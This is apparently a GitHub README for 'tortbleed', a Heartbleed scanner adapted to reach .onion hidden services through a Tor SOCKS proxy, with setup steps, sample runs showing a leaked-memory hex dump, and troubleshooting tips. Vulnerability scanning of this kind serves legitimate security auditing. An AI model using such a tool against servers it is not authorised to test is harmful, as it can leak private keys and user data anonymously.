 tortbleed
=========

Modification of Samiux's Heartbleed Reload scanner to allow direct scanning of .onion addresses.

==========System Requirements==========

- SocksiPy ( Available here: https://github.com/mikedougherty/SocksiPy ).

- urllib2 ( Available here, amongst others for python2.7: 
  https://github.com/python-git/python/blob/master/Lib/urllib2.py ).

- socket ( Available here, amongst others for python2.7: 
  https://github.com/python-git/python/blob/master/Lib/socket.py ).

- A local tor server configured to allow you to connect through it to endpoints.  You do not 
  necessarily need to configure it as a relay, so long as your IP is configured in a 
  'SocksPolicy accept' rule.  Being configured as a relay will not have a negative impact, 
  though, should you have that set-up.

- Python 2.7, as this was the only version I tested this script against.  Please feel free to 
  modify it to work with whatever version you might be using other than 2.7.

==========Setup & Usage==========

You must do the following, or this scanner just wont work:

1. Ensure you have installed and setup Tor on a system accessible to you to ensure you can 
   bounce through it via this script.

2. Edit your copy of torwrapper.py to suit your Tor instance ip / hostname and port to access, 
   on lines 11 & 12.

3. Copy the edited torwrapper.py file to your Python site-packages directory.

4. Ensure you have installed the SocksiPy, socket, and urllib2 site-packages properly.

Once those steps are completed, you can then run the scanner.  The usage output is below, along 
with an example with output:

# ./tortbleed.py <snipped for privacy>.onion
Starting Tor Daemon & Connecting to Tor Network...
Connected to Tor Relay.
My ip is 188.138.9.49 (atlantic480.us.unmetered.com)
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 2483
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
Unexpected EOF receiving record header - server closed connection
No heartbeat response received, server likely not vulnerable

# ./tortbleed.py 192.168.1.43
Connecting to non-onion address...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 58
 ... received message: type = 22, ver = 0302, length = 961
 ... received message: type = 22, ver = 0302, length = 525
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  --snipped output for readme brevity-- 
WARNING: server returned more data than it should - server is vulnerable!

#

==========Troubleshooting==========

You may get tracebacks because I haven't included any error handling.
The two most common I found during testing are explained below.

1 - socks.Socks5Error: ((2, 'connection not allowed by ruleset'),)
This occurs when the Tor Relay you are connected to for this particular scan doesn't allow 
outgoing connections to the .onion you are attempting to scan.  Most often, attempting another 
run of the same command will connect you to another Relay and allow this to go through.  If, 
however, you hit the same error, another few attempts may be required.

2 - socks.Socks5Error: ((91, 'request rejected or failed'),)
This happens when connection to the .onion endpoint fails to successfully complete through the 
Tor Relay you are connected through.  This can be for a number of reasons, and may be worth 
trying once more.  Same result usually means problems with the .onion server (either not having 
the port you're attempting to scan on enabled, or other connection-related issues).

Good luck!

- Mike <michael@prattlecorp.com>
